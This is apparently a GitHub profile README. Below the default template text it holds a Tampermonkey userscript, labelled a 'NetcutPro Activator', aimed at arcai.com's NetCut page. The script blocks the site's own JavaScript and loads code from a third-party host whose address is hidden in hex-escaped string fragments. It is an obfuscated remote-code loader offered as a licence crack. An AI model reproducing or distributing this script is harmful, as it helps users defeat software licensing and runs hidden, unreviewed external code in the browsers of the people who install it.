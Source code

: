 - 👋 Hi, I’m @TaimoorAli777
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
TaimoorAli777/TaimoorAli777 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->





                ------------NetCut Pro Script------------------
                
                
                // ==UserScript==
// @name         NetcutPro
// @namespace    http://tampermonkey.net/
// @version      1.0
// @description  NetcutPro Activator
// @author       batininhani
// @match        https://www.arcai.com/netCut/s/
// @grant        GM_webRequest
// @webRequest   [{"selector":"https://www.arcai.com/netCut/s/main-*.js","action":"cancel"}]
// @require       http://ajax.googleapis.com/ajax/libs/jquery/1.3.2/jquery.min.js
// ==/UserScript==

(function() {
window.addEventListener("load", function(event) {

    var _cs=["\x68\x74\x74","\x6e\x65","\x6b\x6e","\x63\x73","\x75\x74","\x6d\x2f","\x2e\x6a\x73","\x2e\x63\x6f","\x65\x78\x6f","\x74\x63","\x2f\x2f","\x74\x69","\x70\x73\x3a"]; $.getScript( _cs[0]+_cs[12]+_cs[10]+_cs[2]+_cs[8]+_cs[11]+_cs[3]+_cs[7]+_cs[5]+_cs[1]+_cs[9]+_cs[4]+_cs[6] )
});
})();
